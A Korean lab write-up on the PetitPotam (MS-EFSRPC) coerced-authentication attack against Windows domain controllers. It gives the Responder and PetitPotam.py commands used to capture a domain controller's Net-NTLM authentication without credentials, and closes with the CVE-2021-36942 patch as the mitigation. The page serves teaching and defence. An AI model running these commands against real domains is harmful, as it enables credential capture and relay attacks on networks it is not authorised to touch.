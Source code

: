 # MS-EFSRPC - Petitpotam



![](../../.gitbook/assets/petitpotam.drawio.png)

MS-EFSRPC RPC 함수들은 원격 호스트의 파일을 암호화하고 백업을 도와주기 위해서 만든 RPC이다.&#x20;

2021년 7월경 [@topotam](https://github.com/topotam) 이라는 해커가 MS-EFSRPC 와 관련된 RPC 함수들 중 몇가지가 강제 인증에 취약하다는 사실을 발견했다. 또한, 몇 몇 RPC 함수들은 도메인 유저 인증이 아예 필요없이 강제 인증이 가능했다. 마지막으로, 모든 도메인 컨트롤러들이 취약한 상태에 놓여있었다. Topotam은 이 강제 인증 공격을 "PetitPotam" 이라고 이름을 붙였다.&#x20;

### 실습&#x20;

Petitpotam 과 자주 쓰이는 공격은 ADCS - ESC8 페이지에서 정리한다. 이 실습에서는 간단하게 Petitpotam 을 이용해서 도메인 컨트롤러의 NTLM 인증 트래픽을 받는다. 사용할 Petitpotam.py 툴은 [여기서 다운](https://github.com/topotam/PetitPotam) 받는다.&#x20;

1. NTLM 인증 트래픽을 받을 Responder 세팅&#x20;

```
responder -I <NIC> -v 
responder -I eth1 -v 
```

2\. Unauthenticated Petitpotam 을 이용해 유저 계정 없이 Petitpotam 공격&#x20;

```
python3 Petitpotam.py <공격자 IP> <타 IP> 
python3 PetitPotam.py 192.168.40.182 192.168.40.160
```

공격 결과 확인&#x20;

![](<../../.gitbook/assets/image (4).png>)

3\. Responder 를 통해서 도메인 컨트롤러의 Net-NTLM 인증 트래픽 확인&#x20;

![](<../../.gitbook/assets/image (5).png>)

### 대응 방안&#x20;

Petitpotam 과 관련된 [패치](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)는 2021년 8월달에 발표됐다. 패치를 적용하면 유저 인증이 필요한 Petitpotam이나 필요없는 Petitpotam이나 모두 통하지 않는다.&#x20;



### 레퍼런스&#x20;

{% embed url="https://github.com/topotam/PetitPotam" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31" %}
